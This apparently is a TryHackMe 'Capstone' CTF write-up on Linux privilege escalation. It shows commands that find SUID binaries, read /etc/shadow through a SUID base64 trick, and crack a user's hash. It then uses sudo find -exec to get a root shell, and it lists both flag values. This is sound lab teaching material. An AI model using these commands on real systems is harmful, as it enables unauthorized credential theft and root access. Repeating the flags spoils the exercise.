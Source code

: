 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/capstone/","tags":["CTF","write-up","SUID","sudo-l"]}
---
```



---
# Privilege Escalation
## Check for SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
We found `base64`
![Pasted image 20240819181358.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181358.png)
## Use https://gtfobins.github.io/ to exploit it.
We can read any file, we read `/etc/shadow` to see the hash of other users.
```shell
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
![Pasted image 20240819181615.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181615.png)
## On our machine crack the hash missy
Create a file passwd, copy the missy line of passwd
![Pasted image 20240819181914.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181914.png)
Create the shadow, copy the missy line of shadow
![Pasted image 20240819182033.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182033.png)
Unshadow the file using `unshadow` to the unshadowed file
```shell
unshadow passwd shadow > unshadowed
```
Crack the unshadowed file
![Pasted image 20240819182246.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182246.png)
## Get the first flag
Login as missy
```shell
su missy
```
The flag is on `/home/missy/Documents`
![Pasted image 20240819182541.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182541.png)
> [!check]- flag1.txt
> THM-42828719920544
## Escalate to root

Check `sudo -l` for missy
![Pasted image 20240819183619.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183619.png)
Leverage `find`
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
![Pasted image 20240819183906.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183906.png)
We are root now
## Get the second flag
![Pasted image 20240819184137.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819184137.png)
> [!check]- flag2.txt
> THM-168824782390238